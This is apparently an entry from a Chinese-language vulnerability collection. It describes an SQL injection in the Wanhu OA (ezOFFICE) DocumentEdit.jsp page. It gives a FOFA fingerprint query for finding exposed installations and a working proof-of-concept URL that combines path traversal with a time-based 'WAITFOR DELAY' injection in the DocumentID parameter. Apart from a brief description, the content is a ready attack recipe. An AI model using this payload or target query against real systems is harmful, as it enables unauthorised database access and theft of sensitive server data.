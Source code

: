 # 万户OA DocumentEdit.jsp SQL注入漏洞

## 漏洞描述

万户OA DocumentEdit.jsp文件存在SQL注入漏洞，攻击者通过发送特殊的请求包可以对数据库进行SQL注入，获取服务器敏感信息

## 漏洞影响

```
万户OA
```

## FOFA

```
app="万户网络-ezOFFICE"
```

## 漏洞复现

产品页面

![1](./images/202209131047757.png)

验证POC

```
/defaultroot/iWebOfficeSign/OfficeServer.jsp/../../public/iSignatureHTML.jsp/DocumentEdit.jsp?DocumentID=1';WAITFOR%20DELAY%20'0:0:5'--
```

![1662358602569-71e26a34-726b-4d75-b683-225884ec7b4a](./images/202209131047397.png)

![3](./images/202209131047713.png)